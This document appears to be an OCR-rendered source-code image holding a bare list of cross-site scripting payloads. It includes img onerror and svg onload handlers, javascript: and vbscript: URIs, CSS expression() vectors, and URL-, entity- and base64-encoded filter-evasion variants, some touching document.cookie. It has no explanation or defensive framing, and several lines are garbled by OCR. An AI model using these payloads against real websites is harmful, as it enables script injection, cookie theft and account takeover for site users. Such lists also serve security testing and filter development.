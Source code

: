 <img src=x:alert(alt) onerror=eval(src) alt=0>
<img src=/ onerror=alert(1)>
3Cscript%3Ealert(1)%3C%2Fscript%3E##1
%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%31%29%3c%2f%73%63%72%69%70%74%3e
%C0%BCscript%C0%BEalert(1)%C0%BC/script%C0%BE
//";alert(String.fromCharCode(88,83,83))
<svg onload=prompt&#0000000040document.domain)>"
%";eval(unescape(location))//#%0Aprompt(0)
<SCRIPT>a=/XSS/%0Aalert(a.source)</SCRIPT
"><script&#x00000003B;alert&#x000000028;1&#x000000029;&#x00000003B;</script>
javascript&#x00000003A;alert&#x000000028;2&#x000000029;&#x00000003B;
"><img src=1 onerror=alert&#x000000028;1&#x000000029;&#x00000003B;">
";eval(unescape(location))//# %0Aalert(0)
¼script¾alert(¢XSS¢)¼/script¾
<img src=1 onerror=alert(1)>
&#x3C;img src=1 onerror=alert(1)&#x3E;
%2527%253E%253Cscript%253Ealert%25281%2529%253C%252Fscript%253E
%2527%2520onfocus%253D%2527alert%25281%2529%2527%2520
‘ onfocus=’alert(1)’
‘ onfocus=’alert(1)’ autofocus=’
%2527%2520onfocus%253D%2527alert%25281%2529%2527%2520autofocus%253D%2527‘ onmouseover=’alert(1)’
%2527%2520onmouseover%253D%2527alert%25281%2529%2527%2520
<svg%20oNinad=1%20onload=alert(document.cookie)>
?utm_source=abc%60%3breturn+false%7d%29%3b%7d%29%3balert%60xss%60;%3c%2f%73%63%72%69%70%74%3e
<a+HREF="%26%237 javascrip%26%239t: alert%261par;document .domain) *>
”/>&_lt;_script>alert(1)&_lt;/scr_ipt>”/>
<a&#32;href&#61;&#91;&#00;&#93;"&#00; onmouseover=prompt&#40;1&#41;&#47;&#47;">XYZ</a>
<script /***/>/***/confirm('\uFF41\uFF4C\uFF45\uFF52\uFF54\u1455\uFF11\u1450')/***/</script /***/
<script>var a=document.createElement("a");a.href="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==";http://a.click();</script>
%script%alert(CXSS¢)4/script%
<DIV STYLE="background-image: url(&#1,javascript:alert('XSS))">
STYLE="xss:expr/*XSS*/ession(alert('XSS')">
<XSS STYLE="Xss:expressionfalert('XSS'))">
xss:&#101;x&#x2F; *XSS*//*//pression(alert("XSS"))'>
"<svg onload=alert (1)> " ;
%3Csvg%2Fonload%3Dalert%28%22XSS%22%29%20%3E
#<img src=1 onerror=alert(1)>
<a/href=javascript&colon;alert()>click
<body onload="eval(atob('YWxlcnQoJ1N1Y2Nlc3NmdWwgWFNTJyk='))">
<a href="javascript&#0000058&#0000097lert('Successful XSS')">Click this link!</a>
<iframe src=# onmouseover=alert(String.fromCharCode(88,83,83))></iframe><img src="java    script:al ert('Successful XSS')">
<img src="java  script:al       ert('Successful XSS')">
<a href="  &#x8; &#23;   javascript:alert('Successful XSS')">Click this link!</a>
<scr<script>ipt>document.write("Successful XSS")</scr<script>ipt>
<img/src="funny.jpg"onload=javascript:eval(alert('Successful&#32XSS'))>
<a href='vbscript:MsgBox("Successful XSS")'>Click here</a>
<img dynsrc="javascript:alert('Successful XSS')">
<img src=`javascript:alert("The name is 'XSS'")`>
<body background="javascript:alert('Successful XSS')">
"><input autofocus onfocus =top[(584390752*16).toString(32-1*2)](/XSS/)>'onfocus='alert(1)' autofocus='
<xml onreadystatechange=alert(1)>
&fileName=')},1000);alert("XSS`);//
fileName=')},1000);alert("XSS`);//
<style onreadystatechange=alert(1)>
<script onreadystatechange=alert(1)>
<bgsound onpropertychange=alert(1)>